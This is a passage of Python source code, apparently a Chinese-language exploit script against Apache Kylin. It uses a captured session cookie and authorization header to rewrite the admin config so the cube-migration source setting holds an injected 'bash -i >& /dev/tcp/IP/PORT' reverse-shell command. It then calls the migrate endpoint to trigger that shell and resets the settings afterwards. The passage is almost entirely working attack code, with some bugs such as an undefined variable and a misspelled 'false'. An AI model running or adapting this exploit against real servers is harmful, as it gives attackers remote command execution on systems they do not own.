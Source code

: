 ```
        else:
            print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
            return response.cookies["JSESSIONID"],Authorization
    except:
        print("\033[31m[x] 漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, cookie, IP, PORT, Authorization):
    config_url = target_url + "/kylin/api/admin/config"

    key = ["kylin.tool.auto-migrate-cube.enabled","kylin.tool.auto-migrate-cube.src-config","kylin.tool.auto-migrate-cube.dest-config"]
    value = ["true","echo;bash -i >& /dev/tcp/{}/{} 0>&1;echo".format(IP, PORT), "shell"]

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID="+cookie
    }
    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)

def POC_3(target_url, cookie):
    print("\033[35m[o] 正在反弹shell......\033[0m")
    vuln_url = target_url + "/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    try:
        response = requests.post(url=vuln_url, headers=headers)
        POC_4(target_url, cookie)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)

def POC_4(target_url, cookie):
    config_url = target_url + "/kylin/api/admin/config"

    key = ["kylin.tool.auto-migrate-cube.enabled", "kylin.tool.auto-migrate-cube.src-config",
           "kylin.tool.auto-migrate-cube.dest-config"]
    value = ["flase", "echo;echo;echo", "None"]

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
```